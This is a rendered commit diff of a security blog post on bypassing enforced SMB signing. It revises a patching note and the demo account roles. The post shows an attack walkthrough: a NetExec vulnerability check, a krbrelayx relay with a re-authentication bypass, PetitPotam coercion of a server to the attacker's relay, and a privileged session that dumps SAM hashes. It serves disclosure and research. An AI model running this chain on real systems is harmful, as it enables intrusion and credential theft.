

Before and after one commit to aas-n/Blackfield, a Jekyll site: the page built from _posts/2026-10-19-defeating-enforced-smb-signing.md, in a window 1280 px wide and 1400 px high, scrolled down 3086 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
blog: refine SMB signing post (cautious patch note, CVE wording, demo account roles)
Shorten and soften the patching note; state no CVE found across MSRC/KB/public trackers; align the reauth_swap sample output with the module; use user1 as the relay base session (user2 is only the scan's second account); drop '(not a DC)' and simplify the lead-in.

````diff
--- a/_posts/2026-10-19-defeating-enforced-smb-signing.md
+++ b/_posts/2026-10-19-defeating-enforced-smb-signing.md
@@ -72,10 +72,16 @@
   already defines for binding). Enforced SMB signing stays necessary; it is just not sufficient on its
   own against this.
 
-Microsoft also appears to have quietly closed this in September. A same-user check on re-authentication appears in
-srv2.sys 10.0.26100.9444 (shipped in [KB5124008](https://support.microsoft.com/help/5124008),
-8 September 2026) and is absent before it. As of October 2026 there is no CVE attached and the KB lists
-none, so it reads as a quiet, unannounced fix.
+## A note on patching
+
+This looks like it is being fixed. A same-user check on re-authentication shows up on
+Windows 11 24H2 / Server 2025 around September 2026, and similar changes seem to have
+reached the other supported Windows versions, servers and workstations alike, in the
+weeks after. I have not traced every build, and one or two end-of-life versions may never
+receive it. So it is probably better read as a patch window than a permanent gap: a host
+that is current on updates is likely no longer affected, while hosts behind that wave
+still are. I could not find a CVE for this specific change, in Microsoft's update guide, the KB notes, or public
+trackers; it reads as silent hardening rather than a tracked fix. Corrections welcome.
 
 ## Tools
 
@@ -87,9 +93,10 @@
 - A NetExec module, `reauth_swap`, that checks whether a host still allows the cross-user
   re-authentication swap.
 
-A full run against a signing-required member server (not a DC), all values anonymized. Two low-privilege
-domain accounts the attacker controls: `user1` (writes the DNS record on the DC and triggers the
-coercion) and `user2` (the relay's base session). The target is `FS01` at `10.0.0.10`; the DC that holds
+What follows is an example. Two low-privilege
+domain accounts the attacker controls: `user1` does the real work (recon, the DNS record on the DC, the coercion, and the relay's base
+session); `user2` is only the second identity the step 1 viability check needs to test the cross-user
+swap. The target is `FS01` at `10.0.0.10`; the DC that holds
 the AD-integrated DNS zone is at `10.0.0.5`; the relay listens on `10.0.0.50`.
 
 **1. Recon** - the one precondition to confirm first is that the target **enforces SMB signing**
@@ -104,7 +111,8 @@
 
 SMB          10.0.0.10  445  FS01  [*] Windows Server 2022 Build 20348 x64 (name:FS01) (domain:ad.local) (signing:True)
 SMB          10.0.0.10  445  FS01  [+] ad.local\user1:Passw0rd1
-REAUTH_SWAP  10.0.0.10  445  FS01  VULNERABLE - enforced SMB signing is bypassable: server allows a cross-user re-auth swap (user1 -> user2)
+REAUTH_SWAP  10.0.0.10  445  FS01  VULNERABLE - enforced SMB signing bypassable
+REAUTH_SWAP  10.0.0.10  445  FS01  Next step: https://blackfield.ch/blog/defeating-enforced-smb-signing/
 ```
 
 ```
@@ -139,11 +147,11 @@
 10.0.0.50
 ```
 
-**3. Start the relay with the signing bypass** - the base session is `user2`, whose signing key you
+**3. Start the relay with the signing bypass** - the base session is `user1`, whose signing key you
 control. Leave it running.
 
 ```
-$ sudo python3 krbrelayx.py -t smb://10.0.0.10 --reauth-bypass 'AD.LOCAL/user2:Passw0rd2'
+$ sudo python3 krbrelayx.py -t smb://10.0.0.10 --reauth-bypass 'AD.LOCAL/user1:Passw0rd1'
 [*] Protocol Client SMB loaded..
 [*] Running in attack mode to single host
 [*] Setting up SMB Server
@@ -151,7 +159,7 @@
 ```
 
 **4. Coerce the target** - it authenticates to the relay, which reflects it back onto FS01 while
-keeping `user2`'s signing key.
+keeping `user1`'s signing key.
 
 ```
 $ python3 PetitPotam.py -d AD.LOCAL -u user1 -p Passw0rd1 "$NAME" 10.0.0.10
@@ -165,7 +173,7 @@
 
 ```
 [*] SMBD: Received connection from 10.0.0.10
-[*] [reauth-bypass] base session user2 signingKey=6b5e6027d709724bf5298a3335173119
+[*] [reauth-bypass] base session user1 signingKey=6b5e6027d709724bf5298a3335173119
 [*] [reauth-bypass] reflected re-auth status=0x00000000
 [*] [reauth-bypass] SUCCESS - privileged session kept, signing with the low-priv key
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
````
